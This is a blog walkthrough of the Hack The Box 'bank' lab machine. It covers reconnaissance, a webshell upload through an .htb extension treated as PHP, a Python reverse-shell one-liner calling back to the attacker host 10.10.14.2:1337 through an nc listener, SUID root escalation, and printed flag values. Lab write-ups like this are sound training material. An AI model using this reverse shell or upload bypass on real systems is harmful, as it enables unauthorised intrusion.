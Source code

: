 ```yaml
---
layout: post
title: bank Walkthrough
subtitle: Hack The Box Bank Solution
tags: [bank, hackthebox, htb, walkthrough, pentest, CTF]
comments: true
---
```


This is a penetration test for a machine from hackthebox.eu called bank. It was made in about 5 hours with my coworker’s company [last](http://blog.notso.pro "last"). This machine has been somewhat difficult to hack, however through trial and error, we successfully hacked the machine.
The only information we received was the name of the machine.

````
bank
````
and the ip address
```
10.10.10.29 
```

We scanned it using nmap

~~~
root@kali:~# nmap -sV -p- -n 10.10.10.29
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-26 14:25 CEST
Nmap scan report for 10.10.10.29
Host is up (0.036s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.26 seconds
~~~

We found 3 services to check.

- OpenSSH 6.6.1p1
- ISC BIND 9.9.5-3ubuntu0.14
- Apache httpd 2.4.7

There were no known vulnerabilities for them.

We tried to connect on the 80 port for checking the web server, but we did not find anything significant.
The response was the default page of Apache, and there were no hidden surprises in the source code.
We continued the PT, enumerating the hidden directories using **dirbuster** but we did not find anything of relevance.


We used big wordlists for the directories webserver enumeration, connected to the 53 port, and scanned the UDP ports of the machine without any results.
We came to the conclusion that maybe the server was configured with virtualhosts, and using the right domain name would allow us to connect to the web application.

We edited our hosts file
~~~
root@kali:/# nano etc/hosts
~~~

adding this line
~~~
10.10.10.29	bank.htb
~~~

Going by browser on `bank.htb` and TADA'!!!
We found the login panel of the web application.
SQL injection did not work, so we tried again to enumerate the directories.

## ENUMERATION
I launched my dear friends **dirsearch**

~~~
root@kali:~/dirsearch# python3 dirsearch.py -u bank.htb -e * -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
~~~
Let me analyze the command:
- **-u bank.htb** for specifying the Host
- **-e \*** for the extentions (we set ALL) 
- **-w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt** for the wordlist, i preferred to use the biggest wordlist for being sure

This was the result.

~~~
[15:06:44] Starting: 
[15:06:44] 301 -  305B  - /uploads  ->  http://bank.htb/uploads/
[15:06:45] 301 -  304B  - /assets  ->  http://bank.htb/assets/
[15:06:48] 302 -    7KB - /  ->  login.php
[15:06:52] 301 -  301B  - /inc  ->  http://bank.htb/inc/
[15:12:19] 403 -  288B  - /server-status
[15:18:06] 301 -  314B  - /balance-transfer  ->  http://bank.htb/balance-transfer/

Task Completed
~~~

Our attention was focused on:

~~~
[15:18:06] 301 -  314B  - /balance-transfer  ->  http://bank.htb/balance-transfer/
~~~

In this directory, there was a long list of crypted .acc (account) files.

They were so similar, so **last** asked me to check the size. We found one smaller than the others.

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/found-not-encrypted.png "found-not-encrypted")

One file was not crypted and the data was readable.

~~~
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
~~~

We were able to log into the platform, watching the balance, and the transaction history, etc.
The vulnerability was inside the support page.  There was an upload module, but we did not find a way for uploading malware there.


![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/support-page.png "support-page")

### EXPLOITATION

Reading more deeply, we discovered the developer missed an important piece of information inside the HTML source code.

~~~
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
~~~


**Thanks Mr Dev!** We can now upload our fantastic square-webshell (you should look at it on the [official repository](https://github.com/MrSaighnal/square-webshell "official repo")) simply changing the extension to .htb .

Exploring the file system we found the first flag

~~~
cat ../../../../home/chris/user.txt
~~~

user.txt output:
~~~
37c97f8609f361848d8872098b0721c3
~~~

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/square-webshell.png "user owned")

{: .box-success}
**Success:** User Owned.

It's now time to spawn real shell for managing our new system :-)

Let's prepare our computer for receiving connection from our reverse shell through **nc**, using the command:

~~~
root@kali:~# nc -vv -n -l -p 1337
~~~
Our machine is now listening on the 1337 port. (Don't close this terminal!!!)

Let's launch this command on the webshell

~~~
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.2",1337));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
~~~

Be sure to edit the 3° row with your parameters **YOUR_IP** and **YOUR_PORT**.

Come back on your **nc** terminal and you shold see something similar to:

~~~
root@kali:~# nc -vv -n -l -p 1337
listening on [any] 1337 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.29] 51390
/bin/sh: 0: can't access tty; job control turned off
$
~~~

Let's try to launch a command

~~~
root@kali:~# nc -vv -n -l -p 1337
listening on [any] 1337 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.29] 51390
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
~~~
It works.

### PRIVILEDGE ESCALATION

For priviledge escalation we launched a command for checking all files with high priviledge 

~~~
$ find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2> /dev/null
~~~

and the first one we found appeared really interesting:

~~~
-rwsr-xr-x 1 root root 112204 Jun 14  2017 `/var/htb/bin/emergency`
~~~

Our friend sysadmin misconfigurated the system, leaving an important vulnerability open.  Through this file, anyone is able to become root.

~~~
cd /var/htb/bin/
ls
emergency
./emergency
whoami
root
~~~

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/whoami-root.png "whoami root")

and get the root flag 

~~~
cat /root/root.txt  
d5be56adc67b488f81a4b9de30c8a68e
~~~


![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/root-flag.png "root owned")

{: .box-success}
**Success:** Root Owned.

